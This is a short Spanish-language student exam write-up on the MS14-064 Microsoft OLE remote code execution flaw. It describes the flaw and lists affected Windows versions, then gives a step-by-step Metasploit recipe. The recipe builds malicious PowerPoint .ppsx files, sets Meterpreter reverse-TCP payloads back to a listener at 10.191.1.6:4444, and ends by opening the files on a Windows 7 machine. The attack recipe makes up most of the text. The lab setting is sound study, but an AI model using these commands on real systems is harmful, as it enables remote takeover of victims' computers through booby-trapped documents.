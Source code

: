 # Parcial Ciber 
Vulnerabilidad MS14-064 Miscrosoft OLE: Estas vulnerabilidades podría permitir la ejecución remota de código si un usuario visita una página web especialmente diseñada con Internet Explorer. Un atacante que explotó con éxito las vulnerabilidades podría ejecutar código arbitrario en el contexto del usuario actual. Si el usuario actual ha iniciado sesión con derechos de usuario administrativos, un atacante podría instalar programas; ver, cambiar, o eliminar datos; o crear nuevas cuentas con plenos derechos de usuario. Los clientes cuyas cuentas están configuradas para tener menos derechos de usuario en el sistema podrían verse menos afectados que los usuarios que operan con derechos de usuario administrativos.

Sistema operativo: Microsoft Windows

Software:
Windows server 
Windows vista
Windows 8
Windows 8.1
Windows RT
Windows RT 8.1

Link del video: https://www.dropbox.com/s/is9pdjhpx7rsp54/Video_1552603800.wmv?dl=0
Captura del trafico por wireshark: Fotos Añadidas

Instructivo para hacer el exploit:
msfconsole
use exploit/windows/fileformat/ms14_064_packager_run_as_admin

show options

set FILENAME MS14-064.ppsx

set LHOST 10.191.1.6

set LPORT 4444

set PAYLOAD windows/meterpreter/reverse_tcp

show options

exploit

use exploit/windows/fileformat/ms14_064_packager_python

show options

set FILENAME MS14-064_py.ppsx

set LHOST 10.191.1.6

set LPORT 4444

show options

exploit 
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 10.191.1.6

set LPORT 4444

show options

exploit -j

ir a window 7 y abrir el archivo MS14-064.ppsx

set PAYLOAD python/meterpreter/reverse_tcp
r
exploit -j

ir a window 7 y ejecutar archivo MS14-064_py.ppsx




